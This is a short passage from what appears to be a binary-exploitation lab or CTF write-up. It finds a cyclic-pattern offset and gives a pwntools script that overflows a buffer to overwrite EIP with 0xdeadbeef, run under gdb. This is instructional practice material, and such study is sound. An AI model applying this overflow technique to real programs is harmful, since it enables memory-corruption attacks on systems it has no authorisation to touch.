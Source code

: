 ![](<../../.gitbook/assets/Screenshot from 2022-03-12 09-05-11.png>)

{% hint style="success" %}
`0x6161616a`
{% endhint %}

#### I have overflowed the eip with 0xdeadbeef

```python
from pwn import * 

padding = cyclic(cyclic_find('jaaa'))
eip = p32(0xdeadbeef)
payload = padding + eip
print payload
```

```bash
gdb > run < <(python pwn_cyclic.py)
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 09-12-33.png>)
